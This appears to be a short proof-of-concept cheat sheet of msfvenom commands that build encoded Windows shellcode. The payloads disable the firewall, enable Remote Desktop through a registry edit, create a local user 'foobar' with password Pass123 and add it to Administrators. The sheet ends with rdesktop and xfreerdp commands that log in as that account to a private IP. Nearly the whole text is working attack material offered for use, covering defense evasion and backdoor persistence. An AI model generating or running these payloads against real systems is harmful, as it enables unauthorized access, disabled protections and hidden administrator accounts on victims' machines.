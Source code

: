    
POC:

```
msfvenom -p windows/exec CMD="C:\windows\system32\calc.exe" EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

Disable Firewall:

```
msfvenom -p windows/exec CMD="netsh Advfirewall set allprofiles state off" EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

Enable RDP:

```
msfvenom -p windows/exec CMD='reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f' EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

Create new user:

```
msfvenom -p windows/exec CMD="net user foobar Pass123 /add" EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

Adding new user to admin group:

```
msfvenom -p windows/exec CMD="net localgroup Administrators foobar /add" EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

rdesktop -a 16 -z -u foobar -p Pass123 192.168.10.129

xfreerdp /u:foobar /p:Pass123 /cert:ignore /v:192.168.10.129
